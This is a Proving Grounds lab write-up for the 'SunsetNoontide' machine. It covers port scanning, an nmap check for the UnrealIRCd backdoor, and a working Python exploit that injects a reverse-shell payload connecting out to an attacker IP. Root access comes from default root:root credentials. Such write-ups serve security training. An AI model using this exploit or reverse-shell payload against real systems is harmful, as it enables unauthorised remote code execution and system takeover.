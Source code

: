 * * *
 ### LAB: SunsetNoontide
 ### PLatform: Proving grounds
* * *

### ENUMERATION

- Rustscan's scan result

                                                                                                                                                                          
      ❯ rustscan -a 192.168.178.120 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 192.168.178.120:6667
      Open 192.168.178.120:6697
      Open 192.168.178.120:8067
                                                                                                                                                                       
            
      PORT     STATE SERVICE REASON  VERSION
      6667/tcp open  irc     syn-ack UnrealIRCd (Admin email example@example.com)
      6697/tcp open  irc     syn-ack UnrealIRCd (Admin email example@example.com)
      8067/tcp open  irc     syn-ack UnrealIRCd (Admin email example@example.com)
      
- After reading on Unrealircd, I discovered that the internet relay chat Unrealircd has a remote code execution flaw.I tested with a
nmap script to determine if the service running on the port is vulnerable.
Command
 `nmap -sV --script=irc-unrealircd-backdoor <target>`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f69fc13f-e01c-4d99-9c01-ad77e261b8fa)

- I wrote an exploit for it

      #! /usr/bin/python3
      import socket
      # Target's ip and port
      target_ip = "192.168.178.120"
      target_port = 6667

      # Change the ip here to your reverse shell ip and port
      payload = b"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.174\",1339));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"bash\")'"
      
      sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      sock.connect((target_ip,target_port))
      sock.recv(1024)
      sock.send(b'AB; ' + payload + b'\n')
      sock.close()

- Now we have a stabilized reverse shell

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/396cda46-c21d-4d97-be96-1e459a06c79c)

# Privesc 

- The root account uses default credentials which is root:root.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1e568ba7-c1ff-4f0e-8e26-cdbf969e339c)

  

